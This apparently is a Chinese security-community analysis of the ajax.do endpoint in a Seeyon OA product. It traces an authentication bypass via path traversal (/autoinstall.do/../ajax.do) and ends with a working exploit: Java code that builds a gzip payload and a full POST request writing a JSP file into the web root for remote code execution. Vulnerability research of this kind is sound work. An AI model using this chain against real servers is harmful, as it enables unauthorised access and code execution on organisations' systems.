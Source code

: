 

# 某OA ajax.do处漏洞分析 - 先知社区

某OA ajax.do处漏洞分析

* * *

# ajax.do处漏洞分析

本次分析版本v7.1sp1  
/ajax.do可以调用其他类的方法，但ajax.do默认是不允许未授权访问的  
[![](assets/1701606576-c083d8d493a69cfd53fbd5c01d47be13.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091052-510ddf10-85af-1.png)  
登录后访问是这样子的  
[![](assets/1701606576-2d6d44951ba46dbc1df1c7352c9517be.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091104-58422516-85af-1.png)

## 权限绕过

观察web.xml发现.do结尾的路由会经过SecurityFilter  
[![](assets/1701606576-2000c32f6838f5e39aeef55f6ccf3f21.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091126-6561e24a-85af-1.png)  
CTPSecurityFilter类中做了校验，首先调用isSpringController进行校验  
[![](assets/1701606576-1b08eb07f4389200c124549950e805cf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091136-6bb93152-85af-1.png)  
isSpringController只要是.do结尾的或者包含.do;jsessionid都会返回true  
[![](assets/1701606576-7fd9607d70b4ced9e7cc99c6b5d573b0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091149-73347266-85af-1.png)  
然后调用SpringControllerAuthenticator#authenticate  
[![](assets/1701606576-a94b49cf00f343dbe159c177c411617f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091157-782280ba-85af-1.png)  
authenticate方法中判断是否登录，未登录调用this.isNeedlessCheckLogin  
[![](assets/1701606576-c3efa91f324b6499721b9fbf5172deef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091207-7e3f3f92-85af-1.png)  
isNeedlessCheckLogin中，如果路由是/ajax.do，会将accessUrl设置为managerName参数的值，这里没有传入，就是null  
[![](assets/1701606576-5a4b838cba7aa790b33d926f9f21642c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091215-8296c196-85af-1.png)  
然后获取needlessUrlMap  
[![](assets/1701606576-b8b1c6b9ac15943fb059c3737b236d6e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091225-88f1ff06-85af-1.png)  
遍历判断accessUrl是否在这个map中  
[![](assets/1701606576-4bd00fb13bb3c185c07b8de24d99e33c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091309-a2d74d04-85af-1.png)  
accessUrl为null的时候直接抛出异常了，传个managerName进行测试  
[![](assets/1701606576-ce0616238a1e066058a42af22ba79cd7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091318-a864948e-85af-1.png)  
isNeedlessCheckLogin返回false后赋值给isAnnotationNeedlessLogin，会调用到this.checkOnlineState  
[![](assets/1701606576-bdca8db502cac180457e2e74ad753a68.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091327-ade03468-85af-1.png)  
因为没有登录，所以checkOnlineState也会返回false  
[![](assets/1701606576-92b4035bb327933fb9252595b8599f60.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091335-b2a028b4-85af-1.png)  
最后造成SpringControllerAuthenticator#authenticate返回false赋值给accept  
[![](assets/1701606576-40d2f667b8d95c8178a9085270e2d889.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091343-b729539c-85af-1.png)  
当accept为false时，将不会进行filter链的调用  
[![](assets/1701606576-074dc8bbe328122cae05a52d49fa02bd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091350-bb3121b8-85af-1.png)  
思考：在isNeedlessCheckLogin方法中，因为accessUrl不在needlessUrlMap中，导致返回false，那么使accessUrl为needlessUrlMap中存在的key，是否就会返回true，例如：/main.do  
[![](assets/1701606576-82db502f3c546f048ad7747a65b82011.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091407-c5c3cd24-85af-1.png)  
那么ajax.do不在needlessUrlMap中，如何能够访问到ajax.do呢，可以利用spring的一个小trick，在低版本spring中alwaysUseFullPath为默认值false，本次分析版本中刚好alwaysUseFullPath也为false  
[![](assets/1701606576-34d094e40f8bf30e97f948ccaa80cb18.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091414-c99bf25a-85af-1.png)  
当alwaysUseFullPath为false时，会调用getPathWithinServletMapping对url进行处理  
[![](assets/1701606576-b74ec542ec97f2ec481095980d5d347f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091420-cd09a978-85af-1.png)  
而getPathWithinServletMapping会对uri进行标准化处理，例如解码然后处理跨目录等，这就导致了可能的身份验证绕过  
成功绕过  
[![](assets/1701606576-d4176b06cccd69e486be5c2967f2562d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091431-d3beaab6-85af-1.png)

## ajax.do调用流程

接下来分析ajax.do是如何调用类的  
/ajax.do对应的是com.seeyon.ctp.common.service.AjaxController类  
[![](assets/1701606576-e35841d73b9d6313332bb2b5bf83ef4c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091451-dfb67d44-85af-1.png)  
调用其他类的逻辑主要在ajaxAction方法中  
[![](assets/1701606576-f4b8aef2083fa211b64ff33d906c5f13.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091456-e2dc9df0-85af-1.png)  
返回的字符是outStr，outStr调用了invokeService方法进行处理，接着如果传入了ClientRequestPath参数且不为黑名单的，会调用ZipUtil.compressResponse进行解压缩  
[![](assets/1701606576-6dc76b984f901ec7514694122f54ec19.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091502-e68849ea-85af-1.png)  
跟进invokeService方法，首先分别获取serviceName、methodName、strArgs、compressType，然后根据传入的compressType，调用ZipUtil.uncompressRequest对strArgs进行处理  
[![](assets/1701606576-5fa3e3b08a59ae51a8b67a6a3e05d8a6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091507-e9645884-85af-1.png)  
跟进uncompressRequest，可以看到，如果compressType是gzip的话会进行gzip解压缩，如果不是的话，就会返回原本的数据  
[![](assets/1701606576-12de9275470d59d7792eb04e6570dba3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091514-eda6a226-85af-1.png)  
回到invokeService方法，根据传入的serviceName调用getService方法，然后返回一个对象  
[![](assets/1701606576-ccd15258f447e14cc8ff60af9bdd31b2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091520-f119c8c0-85af-1.png)  
跟进getService方法，调用了AppContext.getBean方法来获取对象  
[![](assets/1701606576-e25c5809b63443a71e7103b1e5f1a9cd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091525-f3c9c05c-85af-1.png)  
跟进getBean方法，从beanCacheMap中获取缓存好的对象  
[![](assets/1701606576-de7305189df2a647da766a48e5444581.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091530-f6ffea94-85af-1.png)  
beanCacheMap中存放了Manager的名字和对应的对象  
[![](assets/1701606576-7cccaaefd76a51394fe79b3ea3aaa7dd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091535-fa0c8c42-85af-1.png)  
回到getService方法，获取到对象后，还会判断其是否继承DataSource、Session、SessionFactory三个类，并且不为空，满足条件后return  
[![](assets/1701606576-83d328b093ac92a3f2e005eaaf9a1b75.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091542-fe23b198-85af-1.png)  
返回invokeService方法，获取到对象后，会调用invokeMethod方法，传入获取到的对象、方法名、参数、类名  
[![](assets/1701606576-40d1983d20214be59b47979c93ab6a38.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091547-01412f90-85b0-1.png)  
跟进invokeMethod方法，先将传入的strArgs参数解析成了Object对象，接着判断这个对象是否为List子类的实例，是的话会将Object强制转换成List对象，否则就会创建一个ArrayList对象。然后将传入的Object添加到ArrayList中  
[![](assets/1701606576-293dce136180c6309c5b5f11d8d8eac1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091553-04923306-85b0-1.png)  
经接着会将serviceName + "_" + methodName + "_" + argsNum作为键值在this.candidateMethodCache中获取已经缓存的方法，返回一个list，如果获取到则会将传入的strArgs和list作为参数调用this.findMethodAndArgs((List)l, (List)list)  
[![](assets/1701606576-630585b6e98248539f8c3d98f815bd62.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091558-079e2488-85b0-1.png)  
没获取到的话，会调用this.judgeCandidate  
[![](assets/1701606576-6a6e0fecaf87970506fa3a9f6b0d47c1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091603-0aad6a1c-85b0-1.png)  
judgeCandidate方法中会反射获取services的所有方法，有符合的方法名和符合的所需参数个数的话，就会将这个方法加入到list中，返回list  
[![](assets/1701606576-e28736d4b6531f57912f81a90d83da97.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091608-0de7a13e-85b0-1.png)  
将返回的list作为参数，调用findMethodAndArgs方法  
[![](assets/1701606576-7576ba234b42fa7f31dd112a9046db06.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091617-12c95d3c-85b0-1.png)  
findMethodAndArgs方法中，返回具体的Method对象和参数  
[![](assets/1701606576-b26be1ecd610503ebef2097c21cbdd55.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091626-1867a6e0-85b0-1.png)  
将键值加入缓存  
[![](assets/1701606576-1c7554b4e8f239b7d38cc46ddbb949ce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091632-1bd67680-85b0-1.png)  
反射调用对应的方法  
[![](assets/1701606576-3d6cce95e2613283194fbc17cedc4e87.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091638-1f87ca68-85b0-1.png)  
总结：beanCacheMap中存放了Manager的名字和对应的对象，可以通过传参调用对象的任意方法

## 修改权限绕过

当利用权限绕过的方式尝试调用对应的Manager时，会发现绕不过去了

```plain
/main.do/../ajax.do?method=ajaxAction&managerName=constDefManager&managerMethod=listPage
```

[![](assets/1701606576-05649b2eb41223e115f40dbcb5ddc46b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091730-3eafb694-85b0-1.png)  
进行调试分析，发现是因为传入了method参数后，method为ajaxAction  
[![](assets/1701606576-1cc117bd80a70bc860dea5c57d3e9dc4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091739-4402e40e-85b0-1.png)  
这里返回了false  
[![](assets/1701606576-b22c37c5906b181b18e7ac13bc3e3780.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091745-474b5d76-85b0-1.png)  
key为/main.do时返回的方法中没有ajaxAction，导致没有匹配成功返回false，/main.do/../ajax.do因为没传method参数，method为index，而main.do时返回的方法中含有index，所以可以绕过  
[![](assets/1701606576-85098cf3845982719f9ef79ead86ecf5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091751-4b0b5060-85b0-1.png)  
继续观察发现methods.contains("_") || methods.contains(method)，只要2个条件成立一个就行了，methods.contains("_")就是表示needlessUrlMap.get(key)返回的methods中包含\*就行了  
而autoinstall.do刚好满足这个条件  
[![](assets/1701606576-128ddcf8bd92a99a811a03d5307d7924.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091802-51a03b84-85b0-1.png)  
所以可以利用autoinstall.do来进行权限绕过，利用ajax.do调用相应的Manager

```plain
/autoinstall.do/../ajax.do?method=ajaxAction&managerName=constDefManager&managerMethod=listPage
```

[![](assets/1701606576-fd84672040dceb8f76a15e07c92265d3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091820-5c85661e-85b0-1.png)

## 漏洞利用

有很多Manager都存在漏洞，这里简单提一个fileToExcelManager，其saveExcelInBase方法存在文件上传问题，从而造成rce  
接受3个参数  
[![](assets/1701606576-75a46c3ad94cb65aa18a06b91b0220b2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091839-67e20e86-85b0-1.png)  
保存文件，并没有对文件名进行校验  
[![](assets/1701606576-88b6b71702a44dc476124571666b0b17.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091848-6cdb6b4e-85b0-1.png)  
需要注意的是这里写入的文件，会在前后加入2个双引号，直接插入shell是不行的，解析不了，我们可以利用换行符和双引号来闭合前后的双引号，从而使中间的shell内容能够解析  
构造payload

```plain
import com.seeyon.ctp.common.excel.DataRecord;
import com.seeyon.ctp.common.log.CtpLogFactory;
import com.seeyon.ctp.util.ZipUtil;
import com.seeyon.ctp.util.json.JSONUtil;
import org.apache.commons.logging.Log;

import java.net.URLEncoder;
import java.util.ArrayList;

public class fileToExcelManagerPayload {
    private static final Log LOGGER = CtpLogFactory.getLog(fileToExcelManagerPayload.class);
    public static void main(String[] args) {

        DataRecord d = new DataRecord();
        String[] c = {"\"\r\n"+"<% out.println(\"ttttttttt\"); %>"+"\"\r\n"};
        d.setColumnName(c);
        String dd = JSONUtil.toJSONString(d);
        final ArrayList<Object> list = new ArrayList<>();
        list.add("../webapps/ROOT/x.jsp");
        list.add("\"\"");
        list.add(d);
        final String list1 = JSONUtil.toJSONString(list);
        String strArgs = ZipUtil.compressResponse(list1, "gzip", "UTF-8", LOGGER);
        System.out.println(URLEncoder.encode(strArgs));
        System.out.println("end");

    }
}
```

[![](assets/1701606576-2a957be7681324e103953a52f81cee4f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091916-7d76753e-85b0-1.png)

```plain
POST /seeyon/autoinstall.do/../ajax.do?method=ajaxAction&managerName=fileToExcelManager HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 6357

managerMethod=saveExcelInBase&managerName=fileToExcelManager&method=ajaxAction&requestCompress=gzip&arguments=%1F%C2%8B%08%00%00%00%00%00%00%00%5D%C2%8D%C3%81%0A%C3%820%10D%7F%C2%A5%2C%14%14B%C3%A2%C2%B9%C2%8A%C3%A7%1E%C3%84%C2%82%14%3C4%3D%C2%A46%C3%98H%C2%9A%C2%84dC%05%C3%B1%C3%9FM%09zp%C3%B64%C2%8F%C3%A5M%07%C2%94%C2%B2E%0E%C3%82%C2%B9%C3%80.M%C3%93%C2%B2%27%7D%04%07%04x%3A+%2F%C2%B8Y%1Dgs%16%C2%B3%C2%84%C2%AA%5B%C2%A9%C3%A7%C3%A6P%166%22u%5E%19%C3%94f%C3%83%01%C2%BF%C3%A1%C2%B0%C3%9D%17%C3%A51%C2%BFAO%60%14%28j%29%C3%86%C2%93%0A%C2%98%04%C2%89d%C3%A1U%C3%A1%04%C2%95%C2%89Z%13%08%C2%93%C2%94%C2%98%172%40%C2%85%C3%BAWB%1C%C3%9A%C2%BF%5EKu%C2%9F%C2%92nG%C3%80%C3%9Be%C3%95%C2%BE%C3%BB%0F%C3%8BJZ%C2%B7%C3%8A%00%00%00
```

[![](assets/1701606576-876d92b016cd1daa47ad75acc7a59605.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091942-8d7f8d3a-85b0-1.png)  
[![](assets/1701606576-d7c3c11f952e3fc8b7b24af3e0852f54.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091947-9006927e-85b0-1.png)
